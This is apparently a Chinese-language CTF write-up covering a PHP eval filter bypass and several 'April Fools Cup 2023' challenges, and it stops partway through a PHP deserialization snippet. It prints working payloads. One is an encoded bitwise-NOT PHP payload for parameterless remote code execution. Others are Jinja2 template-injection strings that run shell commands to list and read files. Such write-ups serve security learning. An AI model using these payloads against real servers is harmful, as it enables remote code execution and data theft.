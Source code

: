 
eval 要求

* 代码长度 <70
* 无字母数字及各种符号，可用 ` ~   `
* 无参数函数

payload

```
# var_dump(next(getallheaders()))
cmd=[~%8C%86%8C%8B%9A%92][~%CF]([~%91%9A%87%8B][~%CF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][~%CF]()));&code=0a8bf6eca3449743
```

在请求里注入命令

* `[~(异或)][!%FF]`的形式组成字符串,然后无参数RCE

## 愚人杯2023

### easy_signin

签到，任意文件读取，读取index.php

### easy_ssti

app.zip 下载源码

```py
@app.route('/hello/')
def hello(name=None):
    return render_template('hello.html',name=name)
@app.route('/hello/<name>')
def hellodear(name):
    if "ge" in name:
        return render_template_string('hello %s' % name)
    elif "f" not in name:
        return render_template_string('hello %s' % name)
    else:
        return 'Nonononon'
```

`/hello/{{7*7}}`

过滤了 ` / f eg`

使用 `cd ..` 绕过

```py
/hello/{{g.pop.__globals__.__builtins__['__import__']('os').popen('cd ..;ls').read()}}

/hello/{{g.pop.__globals__.__builtins__['__import__']('os').popen('cd ..;cat *g').read()}}
```

被遗忘的反序列化

```php
<?php

# 当前目录中有一个txt文件哦
// error_reporting(0);
// show_source(__FILE__);
include("check.php");

class EeE{
    public $text;
    public $eeee;
    public function __wakeup(){
        if ($this->text == "aaaa"){
            echo lcfirst($this->text);
```